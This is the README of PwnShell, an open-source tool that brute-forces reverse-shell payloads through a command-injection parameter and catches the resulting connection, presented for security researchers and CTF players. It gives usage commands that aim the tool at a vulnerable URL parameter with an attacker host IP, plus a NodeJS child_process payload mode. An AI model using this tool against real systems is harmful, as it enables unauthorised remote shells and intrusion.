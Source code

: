 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   cd PwnShell/
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME --method GET --cookie '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads 
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

**Project Link**: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]
